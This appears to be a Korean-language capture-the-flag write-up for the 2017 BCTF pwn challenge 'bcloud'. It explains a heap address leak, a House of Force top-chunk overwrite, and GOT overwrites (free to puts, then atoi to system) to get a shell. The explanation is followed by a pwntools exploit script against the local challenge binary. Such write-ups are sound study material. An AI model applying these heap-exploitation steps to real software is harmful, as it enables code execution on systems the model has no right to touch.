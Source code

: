 # 2017 bctf - [PWN] bloud

## Key words

- i386 | NX
- heap (House of force)
- leak by got overwritten

## Solution

처음에 이름을 입력 받는 부분에서 힙 주소를 노출 시킬 수 있습니다.

그 이후, Host 와 Org를 입력 받는데 스트링을 복사 할 때, 오버플로우가 발생하여 힙의 top chunk (wilderness)를 수정할 수 있습니다.

top chunk의 크기를 0xffffffff로 변경하면 매우 큰 크기의 malloc이 가능하고 이는 32비트 주소 체계를 넘게 되서 다시 처음으로 돌게 할 수 있습니다.

따라서 malloc으로 내가 원하는 위치에 할당을 하기 위해 다음과 같이 계산 할 수 있습니다.

```
양수 계산: target - heap_addr - 8
음수 계산: (target - heap_addr) ^ 0xffffffff + 1
```

이를 이용하여 `bss` 영역부터 원하는 값을 쓸수가 있어 문제에서 제공하는 특정 배열을 조작할 수 있습니다.

문제는 기본적인 기능으로는 주소 노출을 할 수가 없는데, free@got를 puts@got로 변경하여 노출 시킬 수 있습니다.

노출된 주소를 이용하여 system 주소를 구하고, atoi@got 를 system 주소로 변경한 뒤, 메뉴 입력 시 `/bin/sh\x00`을 넣어 주면 쉘이 떨어 지게 됩니다.

> 익스 코드는 house of force를 이용하여 bss영역을 덮어 써서 got까지 덮어 쓴 내용이고 그 이후에는 개인 적인 환경에서 정상적으로 동작하지 않아 생략했습니다. 그러나 bss를 이용하여 got를 덮어 쓰는 곳 이후로는 별 다른 어려움이 없기 때문에 문제 해결에는 지장이 없습니다.

## Exploit Code

```python
from pwn import *
context(arch='amd64', os='linux')

target = "./bcloud"
p = process(target)
e = ELF(target)

def fn_leak(addr, n, title=""):
	print " *** {} : {} *** """.format(title, hex(addr))
	print hexdump(p.leak(addr, n))

print p.recv()
p.send("A"*0x3f + "Z")
data = p.recv()
data = data.split("Z")[1].split("!")[0]
heap_addr = u32(data)

print "heap addr : {}".format(hex(heap_addr))
print hexdump(p.leak(heap_addr-8, 0x100))

p.send("A"*0x40)
p.sendline("\xff"*4)
print p.recv()
print hexdump(p.leak(heap_addr-8, 0x100))

arr_N = 0x0804b0a0-0x8
got_addr = 0x0804b000
arr_list = 0x0804b120

# size = target - top_chunk - 8
size = (arr_N - (heap_addr-8+0xdc) - 8) & 0xffffffff
size = (0xffffffff ^ size) + 1
print hex(size)

p.sendline("1")
print p.recv()

p.sendline("-" + str(size))
print p.recv()

p.sendline("1")
print p.recv()

payload = ""
payload += p32(32) * 10
payload += p32(0) * 19
payload += p32(0) * 3
payload += p32(e.got['free'])
payload += p32(e.got['__libc_start_main'])
payload += p32(0)*9

print len(payload)
p.sendline(str(len(payload)+1))
print p.recv()

p.sendline(payload)
print p.recv()

fn_leak(arr_N, 0x50, "arr_N")
fn_leak(arr_list, 0x30, "arr_list")
fn_leak(got_addr, 0x30, "got_addr")

p.sendline("3")
print p.recv()
p.sendline("0")
print p.recv()
p.sendline(p32(e.got['puts']))
print p.recv()

fn_leak(arr_N, 0x50, "arr_N")
fn_leak(arr_list, 0x30, "arr_list")
fn_leak(got_addr, 0x30, "got_addr")

p.sendline("4")
print p.recv()
p.sendline("1")
print p.recv()
```
